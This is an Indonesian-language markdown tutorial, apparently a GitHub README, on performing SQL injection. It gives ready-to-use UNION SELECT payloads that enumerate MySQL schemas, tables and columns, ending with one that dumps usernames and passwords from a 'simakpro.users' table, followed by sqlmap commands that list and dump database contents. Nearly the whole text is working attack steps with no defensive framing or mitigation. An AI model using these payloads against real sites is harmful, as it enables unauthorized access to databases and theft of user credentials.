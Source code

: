 ## Langkah-langkah melakukan SQL Injection secara manual
* Mencari tahu apakah inputan memiliki vuln untuk dilakukan sql injection dengan memasukan karakter `' atau "` pada value inputan
* Apabila terdapat vuln, maka masukan script `' ORDER BY n #`, Cth: `' ORDER BY 1 #`, `' ORDER BY 2 #`, `' ORDER BY 3 #`, dst sampai menemukan error, Script ini berguna untuk mengetahui jumlah tables dalam database.
* Apabila memasukan script di URL maka gunakan `' --+`, apabila di inputan maka gunakan `' #` (`--+` penutup script di URL, `#` penutup script di inputan).
* Selanjutnya jika sudah diketahui banyaknya tables, maka jalankan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10 #
```
* Selanjutnya, untuk mengetahui user dan nama database yang digunakan menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,user(),5,6,7,database(),9,10 #
```

* Selanjutnya, untuk mengetahui list database yang tersimpan pada MYSQL, menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,schema_name,5,6,7,8,9,10 FROM information_schema.schemata #
```

* Selanjutnya, untuk mendapatkan list tables dari database tertentu, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,table_name,5,6,7,8,9,10 FROM information_schema.tables WHERE table_schema = 'simakpro' #
```

* Selanjutnya, untuk mendapatkan informasi yang lebih spesifik kolom-kolom dari sebuah table, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,column_name,5,6,7,column_type,9,10 FROM information_schema.columns WHERE table_schema = 'simakpro'  AND table_name = 'users' #
```

* Terakhir, untuk mendapatkan record data dalam table yang dipilih, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,CONCAT(usrid,' - ',passwd,' - ',level, ' - ', type_user),5,6,7,8,9,10 FROM simakpro.users #
```

* Tambahan, Apabila column input tidak bisa menampilkan data secara perulangan maka bisa menggunakan, fungsi: `GROUP_CONCAT(variable_name)`


## Langkah-langkah melakukan SQL Injection secara otomatis menggunakan SQLMAP
* Mencari tahu apakah aplikasi website memiliki vuln sql injection dengan memasukan script ' secara manual ke inputan.
* Selanjutnya, Masukan perintah berikut untuk mengetahui vuln sql injectionnya
```bash
sqlmap -u "linkinputvulnSqlInjection"
```
* Selanjutnya, Masukan perintah berikut untuk mengetahui daftar isi databasenya
```bash
sqlmap -u "linkinputvulnSqlInjection" --dbs
```
* Selanjutnya, Masukan perintah berikut untuk melihat daftar tables didalam database yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name --tables
```
* Selanjutnya, Masukan perintah berikut untuk melihat struktur tables yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name --columns
```
* Terakhir, Masukan perintah berikut untuk melihat record data didalam tables dari nama columns yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name name_columns,name_columns --dump
```
